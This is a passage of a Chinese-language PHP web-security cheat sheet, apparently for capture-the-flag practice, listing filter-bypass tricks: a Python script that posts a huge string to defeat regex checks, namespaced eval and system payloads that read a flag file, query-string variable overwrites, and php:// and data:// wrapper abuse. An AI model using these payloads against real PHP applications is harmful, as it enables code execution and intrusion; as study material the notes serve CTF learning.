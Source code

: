   复制

  ```
  import requests
   
  url = 'http://x.x.x.x/'
  data = {
      'code': 'very' * 250000 + 'STRING'
  }
  r = requests.post(url, data=data)
  print(r.text)
  ```

### in_array()

- 命名空间（\）

  > 在PHP的命名空间默认为`\`，所有的函数和类都在`\`这个命名空间中，如果直接写函数名function_name()调用，调用的时候其实相当于写了一个相对路径；而如果写\function_name() 这样调用函数，则其实是写了一个绝对路径。如果你在其他namespace里调用系统类，就必须写绝对路径这种写法。

  复制

  ```
  #例
  <?php namespace ccc;\eval($_REQUEST['a']);
  <?php \system('cat /tmp/flag_XXXX');
  ```

  参考：[Code-Breaking-Puzzles-题解-学习篇](https://www.kingkk.com/2018/11/Code-Breaking-Puzzles-题解-学习篇/#function)

### $_SERVER[‘QUERY_STRING’]

- URL编码

  $_SERVER[‘QUERY_STRING’]不会进行URLDecode。

- 变量覆盖

  `?_POST[key1]=36d&_POST[key2]=36d`

### $_REQUEST

- POST覆盖

  $_REQUEST同时接受GET和POST的数据，并且POST具有更高的优先值，只需要同时GET和POST有相同的参数，在检测时POST的值就会覆盖GET的值从而绕过。

### file_get_contents()

- 使用 php://input 或 data://text/plain,xxx 写文件

- 文件内容需满足固定字符串前缀

  filter链构造，参考：

  [Solving “includer’s revenge” from hxp ctf 2021 without controlling any files](https://gist.github.com/loknop/b27422d355ea1fd0d90d6dbc1e278d4d)

  [PHP filter chain generator](https://github.com/synacktiv/php_filter_chain_generator)
